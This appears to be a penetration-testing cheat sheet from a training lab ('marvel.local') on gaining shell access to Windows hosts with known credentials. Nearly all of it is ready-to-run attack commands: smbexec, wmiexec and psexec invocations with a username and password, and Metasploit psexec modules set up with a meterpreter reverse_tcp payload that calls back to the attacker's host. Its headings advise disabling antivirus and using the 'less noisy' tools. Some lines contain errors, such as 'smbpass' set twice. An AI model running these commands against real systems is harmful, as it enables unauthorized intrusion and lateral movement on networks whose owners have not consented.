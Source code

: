 # Gaining Shell Access with Credentials

## **Using smbexec (START WITH THIS, LESS NOISY, DISABLE ANTI VIRUS)**

* run smbexec

```bash
smbexec.py marvel.local/fcastle:'P@$$w0rd!'@<victim ip>
```

## Using wmiexec (START WITH THIS, LESS NOISY, DISABLE ANTI VIRUS)

* run wmiexec

```bash
wmiexec.py marvel.local/fcastle:'P@$$w0rd!'@<victim ip>
```

## Using Metasploit psexec

* launch psexec

```bash
use exploit/windows/smb/psexec
```

* fill out credentials

```bash
options
set rhosts <ip>
set smbdomain marvel.local
set smbpass fcastle
set smbpass P@$$w0rd!
set lhost eth0
#Set Payload
set payload windows/x64/meterpreter/reverse_tcp
set target <#> (if it does not pop a shell)
```

## Using Metasploit Powershell

* launch psexec\_psh

```bash
use exploit/windows/smb/psexec_psh
```

## Using [psexec.py](http://psexec.py/)

* Run psexec

```bash
psexec.py marvel.local/fcastle:'P@$$w0rd!@'<victim ip>
```
